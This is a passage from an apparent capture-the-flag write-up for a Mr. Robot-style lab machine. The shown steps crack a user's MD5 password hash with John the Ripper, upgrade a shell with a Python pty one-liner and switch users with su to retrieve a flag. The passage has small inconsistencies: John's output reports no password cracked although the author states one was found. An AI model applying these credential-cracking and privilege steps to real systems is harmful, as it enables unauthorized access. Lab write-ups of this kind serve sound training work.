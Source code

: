 but i found `robot:c3fcd3d76192e4007dfb496cca67e13b` inside `password.raw-md5` which was some kind of password for `robot` user in `RAW-MD5` hash.
```
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Now to crack this hash i used a password cracking package call `john` or also know as `john the ripper` to crack the `RAW-MD5` hash.

### Step 3.1: Decrypting Hash

**Command:** `john md5.hash --wordlist=fsocity.dic --format=RAW-MD5`

**Findings:**
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2024-08-05 20:59) 0g/s 4516Kp/s 4516Kc/s 4516KC/s 8output..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed. 
```

So i found that the password inside the `RAW-MD5` hash was `abcdefghijklmnopqrstuvwxyz`

### 4. Shell Upgrade

### Step 4.1:

Now i'm getting back to the terminal to switch to the robot user.

So to use su command the shell should be fully interactive, i'm using a python script to upgrade the dumby shell to interactive shell.

**command:** `python3 -c 'import pty; pty.spawn("/bin/bash")'`

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$
```

### Step 4.2:

Now i'm change from `daemon` to `robot` user with the password we found in the hash.

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ whoami
whoami
robot

```
I found the next key `key-2-of-3` inside `/home/robot/key-2-of-3.txt`
